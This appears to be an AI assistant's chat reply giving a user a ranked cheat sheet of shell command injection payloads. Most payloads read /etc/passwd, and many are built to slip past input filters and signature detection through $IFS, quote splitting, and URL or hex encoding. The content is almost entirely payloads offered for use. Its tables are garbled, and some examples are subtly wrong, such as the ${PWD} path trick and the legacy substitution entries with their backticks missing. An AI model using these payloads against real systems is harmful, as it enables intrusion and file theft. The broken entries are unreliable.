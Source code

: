Alright Ali — let’s build you a **proper, ranked cheat sheet** of **command injection payload styles** from the most common to the more niche ones, and I’ll also include the **important bypass equivalents** so you know exactly what each trick means.

This list is based on common usage in penetration testing and CTFs, moving from **most popular** to **less common** .

---

## 🏆 Command Injection Payload Styles (Ranked)

| Rank | Payload Style                        | Example                   | What It Does                                          | Why Popular                                      |     |
| ---- | ------------------------------------ | ------------------------- | ----------------------------------------------------- | ------------------------------------------------ | --- | --- |
| 1️⃣   | **Direct Command**                   | `cat /etc/passwd`         | Executes the command directly.                        | First thing testers try — works if no filtering. |     |
| 2️⃣   | **Command Separator (`;`)**          | `; cat /etc/passwd`       | Runs next command regardless of previous result.      | Works in most shells, very common.               |     |
| 3️⃣   | **Logical AND (`&&`)**               | `&& cat /etc/passwd`      | Runs next command only if previous succeeds.          | Useful for chaining without breaking logic.      |     |
| 4️⃣   | \*\*Logical OR (`                    |                           | `)\*\*                                                | `                                                |     |
| 5️⃣   | \*\*Pipe (`                          | `)\*\*                    | `                                                     | cat /etc/passwd`                                 |     |
| 6️⃣   | **Command Substitution `$()`**       | `$(cat /etc/passwd)`      | Executes inside subshell, replaces with output.       | Evades some naive filters.                       |     |     |
| 7️⃣   | **Command Substitution (Backticks)** | `cat /etc/passwd`         | Same as `$()`, older syntax.                          | Still works in many shells.                      |     |
| 8️⃣   | **Whitespace Bypass with `$IFS`**    | `cat$IFS/etc/passwd`      | `$IFS`= Internal Field Separator (space/tab/newline). | Bypasses filters blocking spaces.                |     |     |
| 9️⃣   | **Variable Path Expansion**          | `cat ${PWD}/etc/passwd`   | Uses env vars to hide path parts.                     | Evades keyword/path filters.                     |     |
| 🔟   | **Concatenation Tricks**             | `ca''t /etc/passwd`       | Breaks up keywords to bypass filters.                 | Useful against simple regex filters.             |     |
| 1️⃣1️⃣ | **URL Encoding**                     | `%63%61%74%20/etc/passwd` | Encodes characters to bypass filters.                 | Works if input is decoded before execution.      |     |
| 1️⃣2️⃣ | **Hex/Octal Encoding**               | `$(echo 63617420...       | xxd -r -p)`                                           | Encodes payload to hide it.                      |     |
| 1️⃣3️⃣ | **Newline Injection**                | `cat /etc/passwd\nwhoami` | Uses newline to split commands.                       | Works in some interpreters.                      |     |
| 1️⃣4️⃣ | **File Descriptor Redirection**      | `cat /etc/passwd 2>&1`    | Redirects errors to output.                           | Useful for blind injection.                      |     |
| 1️⃣5️⃣ | **Time Delay (Blind)**               | `; sleep 5`               | Delays response to confirm injection.                 | Used in blind detection.                         |     |

---

## 📜 Important Bypass Equivalents

| Symbol / Variable | Meaning                                      | Usage                  |     |     |
| ----------------- | -------------------------------------------- | ---------------------- | --- | --- | --- | --- |
| `$IFS`            | Internal Field Separator (space/tab/newline) | `cat$IFS/etc/passwd`   |     |     |     |     |
| `${IFS}`          | Same as `$IFS`                               | `cat${IFS}/etc/passwd` |     |     |     |
| `%20`             | URL-encoded space                            | `cat%20/etc/passwd`    |     |     |
| `%0a`             | URL-encoded newline                          | `cat%0a/etc/passwd`    |     |     |
| `${PWD}`          | Current working directory                    | `cat${PWD}/etc/passwd` |     |     |     |     |
| `${HOME}`         | Home directory                               | `cat${HOME}/file`      |     |     |     |     |
| `\`(backslash)    | Escapes next character or joins lines        | `cat\ /etc/passwd`     |     |     |
| `\t`              | Tab character                                | `cat\t/etc/passwd`     |     |     |
| `$(...)`          | Command substitution                         | `$(whoami)`            |     |     |     |     |
| `...`             | Command substitution (legacy)                | `whoami`               |     |     |

---

---

## 🏆 Command Injection Payload Styles (Most Popular → Less Common)

1. **Direct Command**

   ```
   cat /etc/passwd
   ```

   - Straight execution, no tricks.
   - Works if no filtering at all.

2. **Command Separator (`;`)**

   ```
   ; cat /etc/passwd
   ```

   - Runs next command regardless of previous result.
   - Very common in Bash/sh.

3. **Logical AND (`&&`)**

   ```
   && cat /etc/passwd
   ```

   - Runs next command only if previous succeeds.
   - Useful for chaining without breaking logic.

4. **Logical OR (`||`)**

   ```
   || cat /etc/passwd
   ```

   - Runs next command only if previous fails.
   - Good for error-based testing.

5. **Pipe (`|`)**

   ```
   | cat /etc/passwd
   ```

   - Sends output of first command into second.
   - Can bypass filters expecting standalone commands.

6. **Command Substitution – Modern (`$()`)**

   ```
   $(cat /etc/passwd)
   ```

   - Executes inside subshell, replaces with output.
   - Evades some naive filters.

7. **Command Substitution – Legacy (Backticks)**

   ```
   `cat /etc/passwd`
   ```

   - Same as `$()`, older syntax.
   - Still works in many shells.

8. **Whitespace Bypass with `$IFS`**

   ```
   cat$IFS/etc/passwd
   ```

   - `$IFS` = Internal Field Separator (space/tab/newline).
   - Bypasses filters blocking spaces.

9. **Variable Path Expansion**

   ```
   cat ${PWD}/etc/passwd
   ```

   - Uses environment variables to hide path parts.
   - Evades keyword/path filters.

10. **Concatenation Tricks**

    ```
    ca''t /etc/passwd
    ```

    - Breaks up keywords to bypass regex filters.

11. **URL Encoding**

    ```
    cat%20/etc/passwd
    ```

    - `%20` = space.
    - Works if input is URL-decoded before execution.

12. **Hex/Octal Encoding**

    ```
    $(echo 636174202f6574632f706173737764 | xxd -r -p)
    ```

    - Encodes payload to hide it.
    - Evades signature-based detection.

13. **Newline Injection**

    ```
    cat /etc/passwd
    whoami
    ```

    - Uses newline to split commands.
    - Works in some interpreters.

14. **File Descriptor Redirection**

    ```
    cat /etc/passwd 2>&1
    ```

    - Redirects errors to output.
    - Useful for blind injection.

15. **Time Delay (Blind)**

    ```
    ; sleep 5
    ```

    - Delays response to confirm injection.
    - Used in blind detection.

---

## 📜 Important Bypass Equivalents

| Symbol / Variable | Meaning                                      | Example                |
| ----------------- | -------------------------------------------- | ---------------------- | --- | --- |
| `$IFS`/`${IFS}`   | Internal Field Separator (space/tab/newline) | `cat$IFS/etc/passwd`   |
| `%20`             | URL-encoded space                            | `cat%20/etc/passwd`    |
| `%0a`             | URL-encoded newline                          | `cat%0a/etc/passwd`    |
| `${PWD}`          | Current working directory                    | `cat${PWD}/etc/passwd` |     |     |
| `${HOME}`         | Home directory                               | `cat${HOME}/file`      |     |     |
| `\`(backslash)    | Escapes next character or joins lines        | `cat\ /etc/passwd`     |
| `\t`              | Tab character                                | `cat\t/etc/passwd`     |
| `$(...)`          | Command substitution                         | `$(whoami)`            |     |     |
| `...`             | Command substitution (legacy)                | `whoami`               |
| `${VAR}`          | Variable expansion                           | `cat${VAR}/file`       |     |     |

---
